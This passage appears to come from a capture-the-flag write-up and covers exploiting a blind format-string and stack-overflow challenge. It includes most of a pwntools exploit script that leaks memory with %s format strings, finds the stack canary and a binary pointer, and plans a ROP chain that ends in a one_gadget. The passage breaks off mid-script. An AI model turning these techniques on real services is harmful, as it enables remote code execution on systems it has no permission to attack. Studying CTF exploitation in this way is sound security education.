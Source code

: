 ```
```
We search for the `0xba` and then take the next byte. We then check if the overflow is sufficient given the payload we made before:
```python
# Extract number of bytes read
# ba 65 00 00 00          mov    edx, 0x65 (read_n=0x65)
read_n = code[code.index(b'\xba')+1]

# Check if overflow sufficient
if read_n < size-8 + 8 + 8 + 2*8+ 8:
  # buf + canary + rbp + gadget + 2*p64(0) + one_gadget
  log.failure('Overflow is not sufficient')
  return 1
```

## Running doit.py
The final exploit script has some more checks of validity. Some examples are that `DynELF` might be given something bad or the canary might not be found. Hence I simply made it run in a loop until it works. The final exploit script is given below
```python
#!/usr/bin/env python3
from pwn import *

context.arch      = 'amd64' # [ amd64 | i386 ]
context.os        = 'linux'
context.endian    = 'little'

HOST, PORT = "jump-in-blind.hack.fe-ctf.dk", 1337

@MemLeak
def leaker(addr):
  r.recvuntil(b">> ")
  r.send(b'AA' + f'%7$s'.encode() + b'BB'  + p64(addr))
  leak = r.recvline()
  get = leak.split(b'AA')[1].split(b'BB')[0] + b'\x00'
  return get

def leak_binary(start, n):
  binary = b""
  off = 0
  while off < n:
    try:
      leaked  = leaker(start+off)
      off    += len(leaked)
      binary += leaked
    except:
      return binary
  return binary

def main():

  # Leak binary pointer and canary
  bptr, canary = None, None
  stack = []
  for i in range(7,30):
    r.sendafter(b">> ", f'%{i}$p'.encode())
    leak = r.recvline().decode().strip()
    if not bptr and ('0x55' == leak[:4] or '0x56' == leak[:4]):
      bptr = int(leak, 16)
    if not canary and len(leak) >= 8*2+1 and leak[-2:] == '00':
      canary = int(leak, 16)
    stack.append(leak)
  if not bptr:
```
